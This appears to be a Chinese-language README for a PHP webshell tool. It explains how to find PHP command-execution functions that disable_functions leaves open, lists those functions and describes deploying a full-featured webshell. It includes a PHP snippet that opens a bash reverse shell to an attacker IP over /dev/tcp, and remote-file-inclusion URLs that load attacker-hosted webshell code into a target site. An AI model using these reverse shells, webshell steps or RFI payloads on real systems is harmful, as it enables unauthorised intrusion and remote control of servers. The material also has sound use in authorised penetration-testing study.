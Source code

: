 # 使用方法
1. 先通过获取 phpinfo 信息，确定哪些函数是被 disable_funtion 禁止
2. 对比`PHP中可执行系统命令的函数`，找到一个可以用于**执行系统命令**的函数
3. 通过下面的简单测试，**先确认**该函数确实可以执行：
```
<?php
echo "php function test.";
# shell_exce 修改成测试函数
$output = shell_exec('ls -lart');
echo "<pre>$output</pre>";
?>

```
4. 确认执行 shell 的函数后，可结合`nc`、`bash`、`php`等方式反弹 shell，详见[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)。
例如，我之前遇到使用 nc 不能反弹回 shell，于是尝试了直接使用 bash 反弹 shell 就成功了：
```
<?php
echo "php function test";
$output = shell_exec("bash -i >& /dev/tcp/192.168.119.189/443 0>&1");
echo "<pre>$output</pre>";
?>
```

# PHP中可执行系统命令的函数

- exec — 执行一个外部程序
- passthru — 执行外部程序并且显示原始输出
- shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
- system — 执行外部程序，并且显示输出
- [popen](https://www.php.net/manual/zh/function.popen.php) - 打开一个指向进程的管道，该进程由派生给定的 command 命令执行而产生。
- proc_open — 执行一个命令，并且打开用来输入/输出的文件指针。
`popen`和`proc_open`现在其他 php-shell 中普遍用的较少，可以重点留意一下

# PHP 大马
何为大马？

大马就是具有较多功能的PHP-webshell（相较于一句话木马），以前我们在拿站的时候，通常在反弹 shell 之前会先上传一个大马，然后利用大马的信息收集、命令执行、文件浏览/上传/编辑等功能，从而反弹一个 shell 回来。（当然，如果能直接反弹 shell 回来，就不用上传大马了）。

但是后来有了菜刀、蚁剑等强大的工具，很多时候只需要一句话木马搭配蚁剑就替代了大马的功能，所以大马就用的少了。

所以我总结了一个大致的利用思路（不用蚁剑的情况下）：`PHP大马`> `反弹shell`>`PE(提权)`

## big-shell.php
Usage
RFI:
- 1. `http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，then input the passwd `pass`
- 2. 这时候因为是 RFI 包含的此大马，所以页面会自动重载为section.php，需要手动再次进入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，然后就可以看到大马的页面
- 3. 进入fbrowser 需要手动输入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt&act=fbrowser`
